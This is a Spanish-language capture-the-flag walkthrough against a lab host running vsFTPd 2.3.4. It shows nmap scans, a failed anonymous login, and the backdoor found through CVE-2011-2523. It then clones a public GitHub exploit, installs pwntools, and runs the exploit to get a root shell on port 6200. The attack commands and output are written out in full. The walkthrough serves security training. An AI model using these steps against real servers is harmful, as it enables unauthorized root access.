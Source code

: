 # Herramientas
- Nmap
- Github
- Python3
# Procedimiento
Escaneamos todos los puertos con nmap y solamente nos muestra que existe el servicio FTP (puerto 21):
```bash
nmap -p- 172.17.0.2                                                      
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 21:30 -04  
Nmap scan report for 172.17.0.2  
Host is up (0.000010s latency).  
Not shown: 65534 closed tcp ports (reset)  
PORT   STATE SERVICE  
21/tcp open  ftp  
MAC Address: 02:42:AC:11:00:02 (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
```

Intentamos entrar con ftp usando el comando `ftp 172.17.0.2` y colocamos de usuario `anonymous` y sin contraseña, pero no son credenciales válidas. 
```bash
ftp 172.17.0.2       
Connected to 172.17.0.2.  
220 (vsFTPd 2.3.4)  
Name (172.17.0.2:mapacheroja): anonymous  
331 Please specify the password.  
Password:    
530 Login incorrect.  
ftp: Login failed  
ftp>    
ftp> exit  
221 Goodbye.
```

Volvemos a correr otro script de nmap que nos permita saber si algún servicio tiene una vulnerabilidad conocida con `--script=vuln`.
```bash
nmap -p- --script=vuln 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-14 21:40 -04  
Stats: 0:00:05 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan  
NSE Timing: About 0.00% done  
Stats: 0:00:29 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan  
NSE Timing: About 87.50% done; ETC: 21:40 (0:00:04 remaining)  
Pre-scan script results:  
| broadcast-avahi-dos:    
|   Discovered hosts:  
|     224.0.0.251  
|   After NULL UDP avahi packet DoS (CVE-2011-1002).  
|_  Hosts are all up (not vulnerable).  
Nmap scan report for 172.17.0.2  
Host is up (0.0000080s latency).  
Not shown: 65534 closed tcp ports (reset)  
PORT   STATE SERVICE  
21/tcp open  ftp  
| ftp-vsftpd-backdoor:    
|   VULNERABLE:  
|   vsFTPd version 2.3.4 backdoor  
|     State: VULNERABLE (Exploitable)  
|     IDs:  CVE:CVE-2011-2523  BID:48539  
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.  
|     Disclosure date: 2011-07-03  
|     Exploit results:  
|       Shell command: id  
|       Results: uid=0(root) gid=0(root) groups=0(root)  
|     References:  
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html  
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523  
|       https://www.securityfocus.com/bid/48539  
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb  
MAC Address: 02:42:AC:11:00:02 (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 41.05 seconds
```

Aquí nos muestra que existe una vulnerabilidad conocida relacionada a este protocolo, donde se puede crear un backdoor. Para esto, debemos buscar la vulnerabilidad en github para ver si alguien ha creado el código para explotar la vulnerabilidad, tan solo debemos buscar `CVE-2011-2523 exploit github` y escogemos un repositorio. En mi caso, escogí [este](https://github.com/Hellsender01/vsftpd_2.3.4_Exploit), tan solo debemos seguir las instrucciones existentes.

```bash
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit
cd CVE-2011-2523
```

Sin embargo, si no nos funciona la instalación debido a problemas con versiones de python, solamente debemos crear un entorno virtual e instalar los paquetes. Dentro de la carpeta introducimos la siguiente serie de comandos:

```
python3 -m venv venv
source venv/bin/activate
pip install pwntools
chmod +x exploit.py
```

NOTA: Una vez dejemos de ocupar nuestro entorno virtual, solamente debemos colocar `deactivate`.

Ahora, según el README, debemos ejecutar el código de la siguiente forma:
```
python3 exploit.py 172.17.0.2         
[+] Got Shell!!!  
[+] Opening connection to 172.17.0.2 on port 21: Done  
[*] Closed connection to 172.17.0.2 port 21  
[+] Opening connection to 172.17.0.2 on port 6200: Done  
[*] Switching to interactive mode
$ 
```

Con esto ya tenemos acceso root, y lo podemos comprobar con el comando `whoami`
```bash
$ whoami 

root  
$ ls  
AUDIT  
BENCHMARKS  
BUGS  
COPYING  
COPYRIGHT  
Changelog  
EXAMPLE  
FAQ  
INSTALL  
LICENSE  
Makefile  
README  
README.security  
README.ssl  
REFS  
REWARD  
RedHat  
SECURITY  
SIZE  
SPEED  
TODO  
TUNING  
access.c  
access.h  
access.o  
ascii.c  
ascii.h  
ascii.o
```